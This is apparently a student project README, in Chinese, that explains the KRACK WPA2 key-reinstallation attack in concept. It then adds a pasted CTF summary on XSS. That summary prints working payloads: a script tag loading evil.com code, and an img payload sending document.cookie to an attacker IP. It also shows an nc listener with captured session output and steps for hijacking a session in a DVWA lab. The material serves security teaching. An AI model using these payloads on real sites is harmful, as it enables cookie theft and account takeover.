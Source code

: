 # Team 7 - Project 5 - KRACK

## 背景介紹

KRACK（Key Reinstallation AttaCKs）：金鑰重新安裝攻擊
- 是一種針對保護 Wi-Fi 連接的 WPA 協定的攻擊手段
- 不需要依靠密碼猜測的 WPA2 協定攻擊手段

WPA（Wi-Fi Protected Access）： Wi-Fi存取保護
* 一種保護無線網路（Wi-Fi）存取安全的技術標準
* WPA2 使用四向交握 ( four-way handshake) 確保連線裝置（STA）和 AP（access point, 如市面常見的路由器）之間的安全性。

## KRACK 攻擊手法

### 四向交握 ( 4-WAY HANDSHAKE )

#### 步驟
1. AP 傳送一組初始化向量（ANonce）給客戶端裝置（STA）。
2. STA 接到 ANonce，產生一組PTK（Pairwise Transient Key）和另一個初始化向量（SNonce）發給 AP，並且使用了名為 MIC（Message Integrity Code）的檢驗碼。
3. AP收到 SNonce 後，也會導出一組PTK，並發送密鑰 GTK給STA。
4. STA 在安裝本身 PTK 和 GTK 之後回復訊息（Ack）給AP。

#### 解析
四向交握的第四次握手，可能因網路不穩等原因，導致 AP 端並沒有收到 ok ，就像 Bob 沒有回 Alice 一樣，AP 端只好再傳一次 GTK 給 STA 端。

此時如果 STA 端其實有安裝成功，但 AP 端沒收到 ok 進而再傳一次時，就會迫使 STA 端重新安裝相同密鑰。

因為協議中沒有限制金鑰安裝的次數，所以 KRACKs 攻擊就是讓 AP 重複執行第三次握手，多次會導致協議中使用的隨機數和封包計數器歸零。

攻擊者就是在第三次的交握中，欺騙存取點向裝置重複傳送加密金鑰，但裝置重複安裝相同的金鑰時，nonce 就會被重設。由於 nonce 可被重用，攻擊者便可破解加密。

#### 問題
KRACK 並非直接解開 WPA2 加密強制通訊，而是透過基地臺重送訊號讓接收者再次使用那些應該用完即丟的加密金鑰，進而將封包序號計數器歸零。
隨機數和封包計數器就是確保我們密鑰的產生是不可被猜測的，一旦強迫歸零，攻擊者就可以得知密鑰，進一步大量重播解碼封包，或是插入封包來竄改通訊內容。

唯一受限點：攻擊者必須進入基地台訊號範圍，無法用網路遠端攻擊。

#### 四次交握流程圖
![](https://i.imgur.com/wWmzPJm.jpg)

比利時資安研究員 Mathy Vanhoef 展示的驗證過程影片中，示範了一種情況。

在 KRACKs 攻擊過程透過網路封包分析軟體 WireShark，並偽造與真實 AP 相同 SSID 無線網路名稱與 MAC Address 的熱點，在終端裝置要與真實 AP 完成認證的時候，透過中間人攻擊與 KRACKs 的攻擊方法，迫使終端設備主動連接偽冒的 SSID ，竊取終端裝置連至交友網站時，輸入的帳號與密碼。

[Mathy Vanhoef 驗證 KRACK 過程](https://www.youtube.com/watch?v=Oh4WURZoR98)

## 模擬題目

## CTF中关于XSS跨站的小结
> XSS即跨站脚本，发生在目标网站上目标用户的浏览器层面，当用户浏览器渲染整个HTML文档过程中出现了不被预期的脚本并执行时，XSS就会发生。

任何的安全问题都有“输入”的概念，**很多时候输入内容长度是有限制的，真正的XSS攻击弹窗毫无意义，所以攻击代码可能会比较长**，一般会注入类似下面的代码来引用第三方域上的脚本资源：
&nbsp;&nbsp;&nbsp;&nbsp;`<script src="http://evil.com/xss.js"></script>`
而有的时候，并不按照浏览器允许的策略执行（**同源策略**），那就是真正意义上的跨站了，**突破的是浏览器同源策略**。
例如：
```
<script>
    eval(location.hash.substr(1));
</script>
```
将以上代码保存为一个网页文件然后用chrome打开将会什么都不显示，如果这是目标网站，要执行我们自己的脚本来触发XSS攻击，需要把`alert(1)`这样的脚本改成真正具有杀伤力的第三方的脚本资源，例如：
`http://www.foo.com/xssme.html#document.write("<script/scr=//www.eval.com/alert.js></script>")`
诱骗用户点击后，目标浏览器就会开始执行我们需要的恶意脚本。

**通对于XSS，可以小结为：想进一切办法将你的脚本内容在目标网站中目标用户的浏览器上解析执行即可。**

在XSS攻击成功后，能够对用户当前浏览的页面植入恶意脚本，通过恶意脚本，控制用户的浏览器。这些用以完成各种具体功能的恶意脚本，被称为`XSS Payload`。`XSS Payload`实际上就是JavaScript脚本(还可以是Flash 或其他富客户端的脚本),所以任何JavaScript脚本能实现的功能，`XSS Payload`都能做到。一个最常见的 `XSS Payload`,就是通过读取浏览器的Cookie对象，从而发起Cookie劫持攻击。

同样的还有很多攻击方式，再如查看浏览器历史记录，访问劫持等等。

### 盗用cookie

Cookie一般加密保存了用户的登陆凭证。Cookie 如果丢失了，往往意味着用户的登陆凭证丢失。换句话说，攻击者可以不通过密码，而直接进入用户的账户。

Cookie盗取Payload：
```
<script>
var img=document.createElement("img");img.src="http://192.168.118.138:1234/a?"+escape(document.cookie);
</script>
```
以DVWA为例，DOM型XSS:
`http://localhost/dvwa/vulnerabilities/xss_d/?default=<script>alert(v0w)</script>`
在kali上nc监听端口1234:
`nc -nvlp 1234`
构造Cookie劫持的`XSS Payload`:
```
http://localhost/dvwa/vulnerabilities/xss_d/?default=<script>var img=document.createElement("img");img.src="http://192.168.118.138:1234/a?"+escape(document.cookie);</script>
```

kali上接收到数据包:
```
root@kali:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.118.138] from (UNKNOWN) [192.168.118.1] 49597
GET /a?security%3Dlow%3B%20PHPSESSID%3Do58bsvrlfbval38fs1l3gubr16 HTTP/1.1
Host: 192.168.118.138:1234
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost/dvwa/vulnerabilities/xss_d/?default=%3Cscript%3Evar%20img=document.createElement(%22img%22);img.src=%22http://192.168.118.138:1234/a?%22+escape(document.cookie);%3C/script%3E
Connection: close
```
其中，参数a后面的就是Cookie.
`security=low; PHPSESSID=o58bsvrlfbval38fs1l3gubr16
`
有了这个Cookie，我们可以在不知道密码的情况下，登陆该用户的账户：
1. 打开另一个浏览器，并没有登陆
2. 从抓到的包，可以看出链接地址，直接进入`http://localhost/dvwa/vulnerabilities/xss_d/`,发现进不去，需要登陆。
3. set-Cookie：`security=low; PHPSESSID=o58bsvrlfbval38fs1l3gubr16`
4. 再次访问链接`http://localhost/dvwa/vulnerabilities/xss_d/`,发现可以进入了，账户身份正是盗取的用户身份。

### 防护手段
* HttpOnly
* Cookie与IP地址绑定

### XSS构造GET&POST请求

对网站的浏览和操作，大部分都可以通过GET请求和POST请求来完成，因此可以通过js构造XSS Payload以完成一系列操作。

如可以通过一个url可以删除文件：
`http://www.example.com/do/?m=delete&id=123`

攻击者可以通过构造XSS Payload,发起这个请求：
```
var img = docunment.createElement("img");
img.src = "http://www.example.com/do/?m=delete&id=123";
document.body.appendChild(img);
```
同样的道理，甚至可以利用`XSS Payload` 读取用户邮箱的邮件。

### XSS类型
* **反射型XSS**

&nbsp;&nbsp;&nbsp;&nbsp;发送请求时，XSS代码出现在URL中，作为输入提交到服务端，服务端解析后响应，在响应内容中出现这段XSS代码，最后浏览器解析执行。这个过程就像一次反射，所以称作为反射型XSS.
* **储存型XSS**

&nbsp;&nbsp;&nbsp;&nbsp;储存型XSS和反射型XSS的差别仅在于：提交的XSS代码会存储在服务端（不管是数据库、内存还是文件系统等），下次请求目标页面时不用再提交XSS代码。

* **DOM XSS**


&nbsp;&nbsp;&nbsp;&nbsp;和前两个的区别在于，DOM XSS代码并不需要服务器解析响应的直接参与，触发XSS靠的就是浏览器端的DOM解析，可以认为完全是客户端的事情。

## Contribution
[clickme](https://hackmd.io/EkD3WmKyQgexSx-1F85Mkg)
